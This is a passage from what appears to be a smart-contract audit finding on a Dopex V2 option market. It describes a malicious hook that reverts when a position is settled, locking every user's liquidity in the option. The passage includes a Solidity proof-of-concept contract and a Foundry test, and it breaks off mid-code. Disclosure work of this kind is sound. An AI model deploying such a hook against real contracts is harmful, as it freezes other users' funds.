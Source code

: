 This results in the whole option's liquidity being locked and not only the attacker's. It comes at a cost for the attacker, but it can be fairly small if the option uses a very short `ttl` like 20 minutes or less.

Additionally, the attacker could make it in sort that the malicious `hook` reverts only on settling the position and not when exercising it, effectively creating some kind of "rage option" where when he wins the attack doesn't happen but when he loses then everyone loses.

Here is a POC that can be copied and pasted in DopexV2OptionMarketV2.t.sol:
```solidity
contract MaliciousHookRevertOnUnuse {
    function onPositionUse(bytes calldata _data) external {
        
    }

    function onPositionUnUse(bytes calldata _data) external {revert("maliciousHook");}
}

function testSettleOptionReverts() public {
        //setup attacker and evil hook
        address attacker = makeAddr("attacker");
        MaliciousHookRevertOnUnuse maliciousHook = new MaliciousHookRevertOnUnuse();

        //add very small liquidity (0.01 ether) for our evil hook
        uint shares = positionManagerHarness.mintPosition(
            token0,
            token1,
            0,
            1e16,
            tickLowerCalls, // ~2050,
            tickUpperCalls, // ~2048,
            pool,
            address(maliciousHook),
            attacker
        );


        //setup the option minting, just copy pasted one of the tests and modified with the malicious hook
        {
            uint256 l = LiquidityAmounts.getLiquidityForAmount1(
                tickLowerCalls.getSqrtRatioAtTick(),
                tickUpperCalls.getSqrtRatioAtTick(),
                5e18 - 1
            );

            DopexV2OptionMarketV2.OptionTicks[]
                memory opTicks = new DopexV2OptionMarketV2.OptionTicks[](2);
            //malicious liquidity
            opTicks[0] = DopexV2OptionMarketV2.OptionTicks({
                _handler: uniV3Handler,
                pool: pool,
                hook: address(maliciousHook), //malicious hook
                tickLower: tickLowerCalls,
                tickUpper: tickUpperCalls,
                liquidityToUse: shares
            });
            //legit liquidity
            opTicks[1] = DopexV2OptionMarketV2.OptionTicks({
                _handler: uniV3Handler,
                pool: pool,
                hook: hook,
                tickLower: tickLowerCalls,
                tickUpper: tickUpperCalls,
                liquidityToUse: l
```